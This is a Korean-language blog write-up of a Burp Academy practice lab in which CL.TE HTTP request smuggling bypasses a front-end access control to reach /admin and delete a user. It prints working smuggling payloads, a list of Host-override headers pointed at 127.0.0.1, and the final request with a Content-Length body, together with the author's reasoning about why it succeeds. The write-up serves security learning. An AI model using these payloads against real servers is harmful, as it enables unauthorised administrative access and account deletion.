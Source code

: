 ```yaml
---
layout: post
title: "Burp Academy-HTTP Request Smuggling 관련 취약점: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, HTTP Request Smuggling]
toc: true
last_modified_at: 2024-01-17 21:00:00 +0900
---
```


# 개요
- HTTP Request Smuggling 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te
- 취약점 설명페이지1: https://portswigger.net/web-security/request-smuggling
- 취약점 설명페이지2: https://portswigger.net/web-security/request-smuggling/exploiting
- 난이도: PRACTITIONER (보통)

# 취약점 개요 - bypass front-end security controls
- Burp Academy 에서는 HTTP Request Smuggling을 탐지하는 단계를 세 단계로 나눠서 가르치고 있다. 
- Indentifying과 Confirming, Exploiting이 그 것이다. 
- Indentifying은 식별, Confirming은 확신정도로 이해하면 되겠다. Exploiting은 취약점을 악용하는 단계다.
- 이 문제부터는 Exploiting에 해당한다.  
- Exploiting 중에서 프론트 엔드 서버에서만 접근 제어를 하는 경우를 생각할 수 있다. (백엔드 서버는 아무런 체크 없이 프론트엔드 서버를 믿고 프론트엔드 서버로 부터 받은 HTTP요청을 처리한다.)
- 프론트 엔드 서버만 잘 속이면 특정 권한만 접근할 수 있는 곳, 예를들면 관리자 기능에 접근하는 요청을 스머글링해서 접근제어를 우회할 수 있다. 
- 예를 들면 다음과 같은 경우다. CL.TE 타입의 스머글링이 가능하다면 관리자 기능에 접근할 수 있다. 

```http
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

# 랩 개요
- 이 랩은 프론트 엔드 서버와 백엔드 서버로 구성되어 있다. 프론트 엔드서버는 chunked encoding(TE헤더)를 지원하지 않는다. 
- 프론트엔드서버는 관리자가 아닌경우 `/admin`에 접근하지 못하게 하는 접근 제어를 실시중이다.
- 랩을 풀려면 백엔드 서버에게 HTTP요청을 밀반입해서, 관리자 패널(`/admin`)에 접근해 carlos 유저를 삭제하면 된다. 

```
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos.
```

# 도전
1. 다음 페이로드로 스머글링이 되는 것을 확인했다. 다만 `HTTP/1.1 401 Unauthorized`응답이 돌아왔다. 페이지에는 `Admin interface only available to local users`가 쓰여있었다. 

![스머글링 가능 확인](/images/burp-academy-hrs-6-1.png)

2. Host헤더에 localhost를 지정하면 접근할 수 있을 것 같다. 그런데 스머글링할 요청에 Host헤더가 있으면 중복 헤더는 허용하지 않는다는 메세지가 돌아왔다. 

![Host헤더가 있으면 에러](/images/burp-academy-hrs-6-2.png)

3. 호스트헤더 인젝션 취약점에서 배웠던 Host헤더와 비슷한 역할을 하는 다양한 다른 헤더를 시도해봤지만 여전히 401응답이었다. 

```
X-Forwarded-Host: 127.0.0.1
Referer: 127.0.0.1
X-Host: 127.0.0.1
X-Forwarded-Server: 127.0.0.1
X-HTTP-Host-Override: 127.0.0.1
Forwarded: 127.0.0.1
X-Forwarded-For: 127.0.0.1
```

![Host헤더 헷갈리게 하기 공격](/images/burp-academy-hrs-6-3.png)

4. 음... Host 헤더의 앞 뒤에 `\r` 이나 `\0` 등을 넣어서도 해봤지만 안된다. 답을 본다. 

5. 답을 보니 다음과 같이 스머글링 요청에 **Content-Length 헤더와 바디부분이 있는 경우**는 접근이 가능한 것을 알 수 있었다. (CL헤더 값이 0일 때는 안 동작한다.) 그런데 왜 동작하지는지는 모르겠다... CL헤더와 바디값이 추가된 것이 어떤 차이를 만들어낸 걸까?

```http
POST / HTTP/1.1
Host: 0a9100540483340d858b121a00730099.web-security-academy.net
Cookie: session=Nj2JXsk6Y8Nzr8JMd2z0N18bLRglPmDs
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Length: 5

x
```

![답을 보고 스머글링](/images/burp-academy-hrs-6-4.png)

6. 아.. 이유를 알 것 같다. Host헤더의 중복여부를 판별하는 것은 백엔드 서버일 것이다. 

백엔드 서버에서 보면 처리하는 요청이 첫번째 경우(공격 실패한 경우)는 이렇게 생겼을 것이다. (두번째 요청의 POST 부분이 합쳐져서 처리된다.) Host헤더가 두 개있으므로 중복되므로 백엔드 서버는 처리를 거부한다. 

```http
GET /admin HTTP/1.1
Host: localhostPOST / HTTP/1.1
Host: 0a9100540483340d858b121a00730099.web-security-academy.net
Cookie: session=Nj2JXsk6Y8Nzr8JMd2z0N18bLRglPmDs
...
```

성공하는 경우는 이렇게 생겼을 것이다. 스머글링 요청에 CL헤더와 바디부분이 있음으로 해서 POST 이후 부분이 HTTP요청의 바디로 처리된 것이다! 😲 Host헤더가 하나만 있으므로 백엔드 서버에서 정상적으로 처리된다. 

```http
GET /admin HTTP/1.1
Host: localhost
Content-Length: 10

x=1POST / HTTP/1.1
Host: 0a9100540483340d858b121a00730099.web-security-academy.net
Cookie: session=Nj2JXsk6Y8Nzr8JMd2z0N18bLRglPmDs
...
```

7. carlos유저 삭제 요청(`/admin/delete?username=carlos`)을 스머글링요청에 지정해서 보내본다. 두번보내면 302응답(정상처리)을 확인할 수 있다. 

![carlos유저 삭제 요청](/images/burp-academy-hrs-6-5.png)

8. 풀이에 성공했다. 

![풀이 성공](/images/burp-academy-hrs-6-success.png)